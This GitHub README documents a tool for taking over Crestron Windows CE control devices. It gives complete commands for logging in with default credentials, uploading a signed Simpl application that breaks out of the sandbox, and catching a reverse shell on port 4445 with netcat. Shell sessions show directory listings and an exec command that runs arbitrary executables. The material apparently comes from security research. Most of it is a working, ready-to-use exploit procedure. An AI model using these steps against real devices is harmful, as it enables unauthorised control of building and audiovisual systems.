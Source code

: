 # crestron
Tools for taking over Crestron Windows CE devices without the need for Crestron Toolbox.

If you have authenticated access, or the default `crestron:<blank>` credentials are still enabled, you can use the provided Simpl application to load a malicious application that breaks out of the sandbox to connect back to you.

In a perfect world, Crestron Simpl applications run in a sandbox and are signed with a special Crestron certificate that is shipped with Crestron Toolbox or the Simpl IDE. However, the application in this repository is a signed Crestron application that breaks out of the Simpl sandbox on supported Crestron Windows CE devices. Windows .NET Compact Framework v3.5 is the expected target.

The ports available to the interface can change depending on the device type, and whether you are looking at the control side or the LAN side. If the device has only the LAN interface connected, it will listen with all ports on that interface. Otherwise, the control ports will be listening on the control interface. The key ports are 21, 22, 23, 41794, or 41795.

```
Brandons-iMac:~ bperry$ nmap 192.168.1.174
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-01 13:46 CDT
Nmap scan report for DMPS3-7f81812f.attlocal.net (192.168.1.174)
Host is up (0.0036s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
80/tcp   open  http
443/tcp  open  https
843/tcp  open  unknown
6510/tcp open  mcer-port
```

This assumes you are starting from a clean slate. If you would like to factory reset the device to ensure nothing weird happens, SSH into the device and run `RESTORE`.
```
mkdir tmp
cd tmp
unzip ../pro3.lpz
ssh crestron@192.168.1.240 del \\User\\*
scp * crestron@192.168.1.240:\\User
ssh crestron@192.168.1.240 copy \\User\\boot.bt \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa_archive.zip \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.bin \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.cdm \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\fdsa.rte \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpCustomAttributesInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpData.dat \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SimplSharpHelperInterface.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusLibrary.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusManagerApp.exe \\Simpl\\App01\\
ssh crestron@192.168.1.240 copy \\User\\SplusObjects.dll \\Simpl\\App01\\
ssh crestron@192.168.1.240 progregister -P:all
ssh crestron@192.168.1.240 progreset

```

# Other Devices

If you can telnet or SSH into the device, the command prompt will contain the RackType that you can update boot.bt with.

```
bperry@bperry-Precision-T5610:/tmp/zip$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to 192.168.1.174.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>

```

In boot.bt, the RackType is in the first stanza and by default is the PRO3.

```
[LG_BOOT_DATA]
BinFileName=fdsa.bin
SMWFileName=fdsa.smw
NumberSymbols=15
NumberSignals=33
RouteFileName=fdsa.rte
CUZ=1.007.0017
RackType=PRO3
SymParamVersion=21.007.0017
NumberParameters=3
NumRealIntegralParams=0
NumRealStringParams=3
NVRAMUsed=0

[...snip...]
```

Replacing PRO3 with the device type will ensure the device does not reject the application.

# Using the shell

The shell expects a \User\ip file with the IP address to connect back to. Port 4445 is hardcoded.

```
echo -n 192.168.1.123 > ip
scp ip crestron@192.168.1.174:/User
```

Once the connection is made, you can begin interacting outside of the sandbox.

```
Brandons-iMac:~ bperry$ nc -l 4445
Connected
 > ls
\Network
\Windows
\Temp
\Program Files
\My Documents
\HTML
\Sys
\Simpl
\Nvram
\FTP
\User
\ROMDISK
\Application Data
\My Recent Documents
\Recycled
\SSHBanner
 >  
 ```
 
 For instance, compared to the sandbox directory list.
 
 ```
 Brandons-iMac:~ bperry$ telnet 192.168.1.174
Trying 192.168.1.174...
Connected to dmps3-7f81812f.attlocal.net.
Escape character is '^]'.
DMPS3-4K-150-C Console
Warning: Another console session is open 

DMPS3-4K-150-C>dir
Directory of \
       [DIR]  09-21-15 08:58:24 FTP
       [DIR]  09-21-15 08:58:24 HTML
       [DIR]  09-21-15 08:58:24 Nvram
       [DIR]  09-21-15 08:58:26 ROMDISK
       [DIR]  09-21-15 08:58:24 Simpl
       [DIR]  09-21-15 09:05:26 SSHBanner
       [DIR]  09-21-15 08:58:24 Sys
       [DIR]  09-21-15 08:58:26 User

DMPS3-4K-150-C>
```

Available commands are `ls`, `pwd`, `exec`, `cat`, `cd`, and `base64`.

On PRO3, for instance, you can run a graphics test executable for demonstration of the issue.

```
 > exec \Windows\cube.exe
```

A spinning cube will replace the Crestron menu on the display.
